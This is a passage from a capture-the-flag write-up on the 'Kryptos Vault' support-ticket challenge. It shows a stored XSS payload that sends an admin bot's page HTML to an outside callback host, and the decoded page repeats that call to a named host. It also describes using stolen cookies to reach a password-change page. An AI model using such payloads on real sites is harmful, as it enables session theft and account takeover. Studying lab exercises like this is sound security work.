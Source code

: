 After using the cookies the page didn't get the flag nor redirect to the logged-in dashboard.

![](kryptos-6.png)

After that our attempt is to get the source code HTML that the bot has.

```html
<script> 
fetch('ip_callback/q?=' + encodeURI(document.body.outerHTML)) 
</script>
```

![](kryptos-7.png)

Decoded result
```html
<body>
        <nav class="nav-bar">
            <ul>
                <li>
                    <a href="/settings">Settings</a>
                </li>
            </ul>
        </nav>
        <nav class="logged-bar">
           <ul>
               <li>
                   logged in as (), <a href="/logout">logout</a>
               </li>
           </ul>
       </nav>
      <div class="container on">
         <div class="screen">
            <h3 class="title">
               Kryptos Vault Support tickets
            </h3>
            <div class="message-container">
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-18 17:39:15</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p><script> 
fetch('http://x.nyxmare.co:1234/q?='   encodeURI(document.body.outerHTML)) 
</script></p></div></div></div></div></div></body>
```

We could see the new endpoint `/settings`

We visited the new endpoint, using the stolen cookies. Apparently. It's a feature that we could change the password.

![](kryptos-8.png)
